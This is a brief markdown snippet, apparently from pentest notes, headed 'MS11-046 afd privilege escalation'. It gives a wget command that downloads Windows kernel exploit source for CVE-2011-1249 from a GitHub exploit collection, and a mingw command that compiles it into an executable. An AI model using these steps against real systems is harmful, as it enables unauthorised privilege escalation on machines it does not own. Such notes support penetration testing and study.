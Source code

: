 # MS11-046 afd privilege escalation

```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-046/CVE-2011-1249.c

i686-w64-mingw32-gcc CVE-2011-1249.c -lws2_32 -o ms11-046.exe
```

